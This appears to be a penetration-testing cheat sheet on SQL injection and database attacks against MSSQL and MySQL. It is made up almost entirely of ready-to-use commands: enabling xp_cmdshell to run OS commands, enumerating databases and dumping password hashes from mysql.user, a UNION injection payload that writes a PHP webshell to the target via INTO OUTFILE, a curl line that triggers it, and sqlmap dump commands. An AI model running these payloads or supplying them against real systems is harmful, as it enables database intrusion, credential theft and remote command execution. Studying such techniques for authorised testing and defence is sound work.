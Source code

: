 # SQLi

## MSSQL 

### Basics

#### Connection
```
impacket-mssqlclient account:passwd@ip -windows-auth
```

#### Commands
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
```

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
```

## Sqlmap

```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


